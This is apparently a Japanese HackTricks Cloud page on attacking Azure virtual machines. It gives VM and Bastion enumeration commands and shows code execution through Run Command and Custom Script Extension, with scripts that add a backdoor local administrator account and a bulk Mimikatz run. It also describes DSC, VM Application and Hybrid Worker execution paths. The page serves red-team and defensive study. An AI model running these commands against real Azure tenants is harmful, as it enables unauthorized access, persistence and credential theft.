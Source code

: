 # Az - 仮想マシンとネットワーク

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

[From the docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azureの仮想マシンは、Azureが提供する[オンデマンドでスケーラブルなコンピューティングリソース](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree)の一つです。通常、他の選択肢よりもコンピューティング環境に対する制御が必要な場合に仮想マシンを選択します。この記事では、仮想マシンを作成する前に考慮すべきこと、作成方法、および管理方法についての情報を提供します。

## Azureネットワーク情報

Azureネットワークには**異なるエンティティと構成方法があります。** 異なるAzureネットワークエンティティの**簡単な説明、** **例、** および **列挙** コマンドを以下で見つけることができます：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion**は、Azureポータルを介してSSL経由で安全で完全に管理されたRDP（リモートデスクトッププロトコル）およびSSH（セキュアシェル）アクセスソリューションを提供します。これはAzure仮想ネットワーク内に統合されており、プライベートIPを使用してVMへのRDPおよびSSH接続を可能にし、パブリックIPの必要性を回避します。これにより、VMアクセスのためのパブリックIP割り当てやNSGルール構成を含む従来の方法に比べて、安全で便利な代替手段となります。開発者やIT担当者は、Azureポータルからウェブブラウザを使用してVMに安全にアクセスでき、開発およびテスト環境のプロセスを効率化します。

サブスクリプション内のすべてのAzure Bastionホストをリストするには、次のコマンドを使用できます：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM 列挙
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VMでコマンドを実行する**

### **VMでのAADログイン**

AzureADを介して認証されたユーザーにアクセスを許可することが可能です。例えば、**linux VM**にアクセスしようとする場合：`ssh username@azure-corp.com@1.1.1.1`（ログインを試みる際に使用したazurecorpの**メールアドレス**を**使用することが重要です**）というエラーが発生することがあります：

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

その**指示に従って**、[https://microsoft.com/devicelogin](https://microsoft.com/devicelogin)にアクセスし、コードを入力し、メールアドレスとパスワードを資格情報として使用すれば、SSH経由で接続できるようになります（そのユーザーに十分な権限がある場合：`Virtual Machine Administrator Login`または`Virtual Machine User Login`ロール）。

### **コマンドを実行**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **カスタムスクリプト拡張を実行する**

Azure仮想マシン（VM）拡張は、**Azure VMs**上でのデプロイ後の構成および自動化**タスク**を提供する**小さなアプリケーション**です。たとえば、仮想マシンにソフトウェアのインストール、ウイルス対策、または内部でスクリプトを実行する機能が必要な場合、VM拡張を使用できます。

したがって、書き込むアクセス権がある場合、任意のコードを実行できます：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) は、コードを通じてホストを設定するために使用される、Ansible に似た PowerShell ツールです。DSC は Azure と統合されており、特定の構成ファイルをアップロードできます。これらのファイルは厳格な構文に従う必要があります。特に、Azure の DSC 拡張機能は、特定のフォーマット基準を満たすファイルからコマンドを実行でき、DSC 標準の構文が正しくなくても実行されることがあります。

これらのコマンドの実行は、Az PowerShell の [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 関数によって促進されます。要件には、定義された関数を持つ **.PS1** ファイルが含まれ、そのファイルは **.zip** ファイルに圧縮される必要があります。構文が DSC に対して正確でなくても、コードは実行されます。ただし、拡張機能は実行ステータスを「失敗」としてマークし、コマンドからの出力は失敗メッセージによって上書きされるため表示されません。

### VM Application Definitions

VM Application Definitions は、バージョン管理されたアプリケーションを Azure VM に繰り返しデプロイすることを可能にします。このリソースは、VM 全体でのアプリケーションのデプロイと更新をサポートします。これを設定するには、Az PowerShell の **`New-AzGalleryApplication`** および **`New-AzGalleryApplicationVersion`** などのコマンドを含むいくつかの手順が必要です。

この方法でアプリケーションやコマンドを実行するには、アプリケーションが VM に適用されると自動的にインストールされる **"VMAppExtension"** が関与します。拡張機能は、指定された URI からファイルを取得し、拡張子なしでアプリケーションと同じ名前を付けます。ファイルを正しく実行するには、REST API 呼び出しの "ManageActions" フィールドを適切な拡張子でファイル名を変更するように設定する必要があります。この方法の設定が完了すると、提供された図に示されている構造に似たものになります。

ただし、この実行方法は比較的遅く、アプリケーションやコマンドを実行するのに約 3-4 分かかります。このプロセスに関連するファイルは、特定のディレクトリに保存されます（アプリケーションコピー用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` と、実行ステータス用の `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

両方の技術は、Azure 環境でコマンドを実行し、アプリケーションをデプロイするための独自の方法を提供し、それぞれに独自の要件、手順、および考慮事項があります。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) は、Automation Account で構成された Runbook を、指定された HWG の一部である Azure Virtual Machine (VM) で実行できる Azure の機能です。この実行は、VM にインストールされた拡張機能を通じて促進され、Runbook コードが VM にデプロイされます。このプロセスの重要な側面は、実際の資格情報が実行に影響しないことです。なぜなら、コードは特権昇格された状態で実行され、具体的には **SYSTEM** または root として実行されるからです。

Windows 10 VM を利用する人にとって重要な詳細は、Runbook の PowerShell バージョンを指定する必要があることです。これを PowerShell バージョン 5.1 として実行するように設定する必要があります。これは、PowerShell 7.1 がこれらの VM にデフォルトでインストールされていないため、バージョン 7.1 を指定するとスクリプトの実行が失敗するからです。

Azure のこの機能は、ハイブリッド環境全体でタスクを自動化および管理するための強力な方法を提供し、Azure VM 上でのタスクの集中管理と実行を可能にします。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
